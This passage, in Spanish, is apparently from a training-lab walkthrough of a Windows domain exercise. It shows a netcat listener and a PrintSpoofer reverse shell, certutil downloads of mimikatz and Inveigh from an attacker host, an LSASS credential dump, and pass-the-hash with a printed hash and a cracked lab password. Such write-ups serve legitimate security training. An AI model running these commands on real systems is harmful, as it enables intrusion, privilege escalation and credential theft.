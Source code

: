         ```bash
        nc -nlvp 1234
        ```
    - Ejecutamos una revshell con `printspoofer`
        ```poweshell
        .\printspoofer.exe -c "powershell -e JABjAGwA..." 
        ```
        Era más fácil elevar: 
		```powershell
		.\PrintSpoofer64.exe -i -c powershell
		```

###  Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.

- Una vez conectados con privilegios de adminsitrador, tratamos de volcar información relevante con mimikatz:
    - Descargamos mimikatz con `certutil`
        ```powershell
        certutil -urlcache -split -f http://172.16.7.240:8000/mimikatz.exe C:\Users\public\mimikatz.exe
        ```
    - Hacemos un volcado de lsass: 
        ```powershell
        .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit" > sekurlsa_logon
        ```
    - Encontramos un hash para `mssqlsvc`: `8c9555327d95f815987c0d81238c7660` que nos sirve para hacer un pth en ms01:
        ```powershell
        impacket-psexec mssqlsvc@172.16.7.50 -hashes :8c9555327d95f815987c0d81238c7660
        ```
        
### Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?
Lo obtenemos con `bloodhound`

###  Crack this user's password hash and submit the cleartext password as your answer.
- Hacemos nuevamente un volcado de lsass, sin demasiada información valiosas
- Nos ayudamos de una pista en la que nos dice que hagamos algo similar al principio de obtener las credenciales, por lo que ejecutamos `inveight.ps1`, que es similar a `responder`, pero para windows. Descargamos el archivo
    ```powershell
    certutil -urlcache -split -f http://172.16.7.240:8888/Inveigh.exe C:\Users\public\Inveigh.exe
    ```
- Y lo ejecutamos
    ```powershell
    Inveigh.exe
    ```
- Tras unos segundos obtenemos el hash y lo crackeamos offline obteniendo como contraseña: `charlie1`. Tenemos por lo tanto las siguientes credenciales: 
    ```textplain
    CT056:charlie1
    ```
### Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.
